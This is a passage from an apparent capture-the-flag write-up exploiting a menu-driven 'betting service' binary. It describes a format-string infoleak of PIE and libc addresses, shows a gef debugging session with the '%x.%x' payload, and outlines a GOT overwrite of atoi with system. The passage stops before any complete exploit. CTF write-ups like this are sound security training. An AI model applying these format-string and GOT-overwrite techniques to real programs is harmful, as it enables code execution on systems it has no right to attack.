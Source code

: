 So my exploit worked like this. First off we get `pie` and `libc` infoleaks, so we know the address space for those two regions. After that we can just do a got overwrite over `atoi` with `system`. For the menu, our input is passed to `atoi`, and since `atoi` and `system` take the same arguments, we will be good. In addition to that `atoi` isn't called anywhere that will DOS the process.

## Infoleak

Let's take a look at how we are doing the `PIE` and `LIBC` infoleak.

```
gef➤  pie b *0x9df
gef➤  pie run
Stopped due to shared library event (no libraries added or removed)
Welcome to the ultimate betting service.
Enter the amount of players: 1
Name: %x.%x
Alright, now let's start!
1. Play a round
2. View scores
3. Add a latecommer
4. Edit player name
5. End the game
1
Amount of players playing this round: 1
Each player makes a bet between 0 -> 100, the one who lands closest win the round!
%x.%x's bet: 1

Breakpoint 1, 0x565559df in ?? ()
[+] base address 0x56555000
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0xffffd06c  →  "%x.%x"
$ebx   : 0x56557540  →  0x0000242c (",$"?)
$ecx   : 0x0       
$edx   : 0xf7fb6890  →  0x00000000
$esp   : 0xffffd020  →  0xffffd06c  →  "%x.%x"
$ebp   : 0xffffd0b8  →  0xffffd118  →  0x00000000
$esi   : 0x56558980  →  0x565589c0  →  "%x.%x"
$edi   : 0x0       
$eip   : 0x565559df  →   call 0x565555a0 <printf@plt>
$eflags: [zero carry PARITY ADJUST SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063
────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffd020│+0x0000: 0xffffd06c  →  "%x.%x"     ← $esp
0xffffd024│+0x0004: 0x5655605c  →  "And the winner is *drumroll*:"
0xffffd028│+0x0008: 0xf7fb55c0  →  0xfbad2288
0xffffd02c│+0x000c: 0x565558d5  →   mov ecx, eax
0xffffd030│+0x0010: 0x00000001
0xffffd034│+0x0014: 0x00000000
0xffffd038│+0x0018: 0xf7e0f53b  →   add eax, 0x1a5ac5
0xffffd03c│+0x001c: 0x56558980  →  0x565589c0  →  "%x.%x"
──────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
   0x565559d8                  sub    esp, 0xc
   0x565559db                  lea    eax, [ebp-0x4c]
   0x565559de                  push   eax
 → 0x565559df                  call   0x565555a0 <printf@plt>
   ↳  0x565555a0 <printf@plt+0>   jmp    DWORD PTR [ebx+0x10]
      0x565555a6 <printf@plt+6>   push   0x8
      0x565555ab <printf@plt+11>  jmp    0x56555580
      0x565555b0 <fflush@plt+0>   jmp    DWORD PTR [ebx+0x14]
```